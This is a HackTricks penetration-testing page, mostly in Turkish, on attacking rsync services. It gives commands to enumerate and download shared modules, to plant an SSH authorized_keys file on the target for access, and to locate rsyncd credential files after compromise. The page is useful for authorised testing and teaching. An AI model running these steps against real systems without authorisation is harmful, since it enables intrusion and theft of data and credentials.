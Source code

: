 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Temel Bilgiler**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync**, bir bilgisayar ile harici bir sabit disk arasında ve [ağ](https://en.wikipedia.org/wiki/Computer\_network) [bilgisayarları](https://en.wikipedia.org/wiki/Computer) arasında [dosyaları](https://en.wikipedia.org/wiki/Computer\_file) [verimli bir şekilde](https://en.wikipedia.org/wiki/File\_transfer) [aktarmak](https://en.wikipedia.org/wiki/File\_transfer) ve [senkronize etmek](https://en.wikipedia.org/wiki/File\_synchronization) için bir yardımcı programdır. Dosyaların [değiştirilme zamanlarını](https://en.wikipedia.org/wiki/Timestamping\_\(computing\)) ve boyutlarını karşılaştırarak çalışır.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) Genellikle [Unix benzeri](https://en.wikipedia.org/wiki/Unix-like) [işletim sistemlerinde](https://en.wikipedia.org/wiki/Operating\_system) bulunur. Rsync algoritması, [delta kodlama](https://en.wikipedia.org/wiki/Delta\_encoding) türüdür ve ağ kullanımını minimize etmek için kullanılır. [Zlib](https://en.wikipedia.org/wiki/Zlib) ek [veri sıkıştırması](https://en.wikipedia.org/wiki/Data\_compression) için kullanılabilir,[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) ve [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) veya [stunnel](https://en.wikipedia.org/wiki/Stunnel) güvenlik için kullanılabilir.

**Varsayılan port:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeration

### Afiş & Manuel iletişim
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Paylaşılan Klasörleri Sayma**

**Rsync modülleri**, **şifrelerle korunabilecek** **dizin paylaşımları** olarak tanınır. Mevcut modülleri belirlemek ve şifre gerektirip gerektirmediğini kontrol etmek için aşağıdaki komutlar kullanılır:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Dikkat edin ki bazı paylaşımlar listede görünmeyebilir, bu da onları gizleyebilir. Ayrıca, bazı paylaşımlara erişim belirli **kimlik bilgileri** ile kısıtlanmış olabilir, bu da **"Erişim Reddedildi"** mesajı ile belirtilir.

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Manuel Rsync Kullanımı

Bir **modül listesi** elde edildikten sonra, eylemler kimlik doğrulamanın gerekip gerekmediğine bağlıdır. Kimlik doğrulama olmadan, bir paylaşılan klasörden yerel bir dizine **listeleme** ve **kopyalama** işlemi şu şekilde gerçekleştirilir:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Bu işlem **dosyaları özyinelemeli olarak aktarır**, niteliklerini ve izinlerini korur.

**Kimlik bilgileri** ile, paylaşılan bir klasörden listeleme ve indirme aşağıdaki gibi yapılabilir; burada bir şifre istemi görünecektir:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
To **upload content**, such as an _**authorized_keys**_ file for access, use:  
**İçerik yüklemek için**, erişim için bir _**authorized_keys**_ dosyası gibi, şunu kullanın:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd yapılandırma dosyasını bulmak için şunu çalıştırın:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
Bu dosya içinde, bir _secrets file_ parametresi **rsyncd kimlik doğrulaması** için **kullanıcı adları ve şifreler** içeren bir dosyaya işaret edebilir.


## Referanslar
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
